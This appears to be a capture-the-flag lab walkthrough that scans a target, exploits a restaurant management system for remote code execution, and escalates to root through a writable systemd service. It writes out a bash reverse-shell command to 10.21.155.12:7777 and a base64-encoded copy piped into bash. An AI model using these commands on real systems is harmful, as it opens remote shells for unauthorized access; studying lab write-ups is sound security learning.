 1. Run nmap to discover any open ports from the server.
![image](https://github.com/user-attachments/assets/0f0e1839-d493-44a9-87d8-b75984fd3288)
2. Port 12340 is http-based service, I opened the website and it shows not found error.
![image](https://github.com/user-attachments/assets/fd400608-a2ce-4dba-bbd0-cc54c61a6b56)
3. Next step is enumerating the server and found /rms path.
![image](https://github.com/user-attachments/assets/91f7dfb3-510c-4bb1-b64e-231b121a1ee1)
4. Open the web and it shows the restaurant page. Realize that the web use restaurant management system as its service.
![image](https://github.com/user-attachments/assets/8f081f6c-1272-45f5-b09e-504fa0a86c36)
5. Searching for the vulnerability and found RCE vuln by uploading the reverse shell payload into the target system.
![image](https://github.com/user-attachments/assets/c8d2e2cc-ae07-448c-bd3c-c6a5390b76e1)
6. Running the script using python and the code successfully insert the reverse shell payload into the target system.
![image](https://github.com/user-attachments/assets/ad9f7c1e-7de6-491d-b776-595e1f951882) <br>
7. Try to run CMD command from the reverse shell file and it successfully executed. <br>
![image](https://github.com/user-attachments/assets/22c06f8c-a91b-4d39-832a-587069b52c0d)
8. So now I'm using this [script](https://www.revshells.com/) to do reverse shell into my terminal with the command below. <br>
**Command: sh -i >& /dev/tcp/10.21.155.12/7777 0>&1** <br>
![image](https://github.com/user-attachments/assets/be6d802a-3385-4831-8f43-2c71cd36f0d6)
9. It didn't work, so I tried to encode the payload with base64. <br>
<b> Command: echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMjEuMTU1LjEyLzc3NzcgMD4mMQo= | base64 -d | bash <b> <br>
![image](https://github.com/user-attachments/assets/7efd6c4a-a501-400a-8e18-58e91d346d8f) <br>
10. Successfully get the target terminal, I tried to open the user.txt file, but it shows permission denied error. <br>
![image](https://github.com/user-attachments/assets/366ed2d5-7df8-45c6-ad2a-7a79a79e3e65) <br>
11. Next thing is I run linpeas.sh inside the target terminal and found credentials information (the red color font) 
![image](https://github.com/user-attachments/assets/f40f35a4-a72d-4f6a-bfc6-9f2e4908a729)
12. Obtain the edward user password, I login using SSH protocol and able to open the user.txt file.
![image](https://github.com/user-attachments/assets/fdd5a249-a12b-4afa-b79c-22feeec9a8c9) <br>
13. For the root privilege, I run sudo -l command and it shows /usr/bin/reboot can be used to escalate my privilege.
![image](https://github.com/user-attachments/assets/01e432b1-b6c8-4c7c-80b0-ad78a7738ba7)
14. Checking from the linpeas.sh result, the /etc/systemd/system/zeno-monitoring.service file is writeable. I change the ExecStart value with the new value as shown in the picture below. <br>
![image](https://github.com/user-attachments/assets/2a3ee024-d92c-40bb-952c-82696d2ba0c3)
15. Reboot the terminal and wait for a minute to relogin into the system. <br>
![image](https://github.com/user-attachments/assets/7e0c50fa-c10b-436a-91ec-1d843bf524db)
16. Run /bin/bash -p inside the system and successfully become root inside the system. <br>
![image](https://github.com/user-attachments/assets/52c0e7e5-d4cc-48b6-b8e0-dbb59c165d04) <br>
17. The root flag is found in /root/root.txt file.
![image](https://github.com/user-attachments/assets/a862838c-f285-46da-b685-20675f3e5d28)


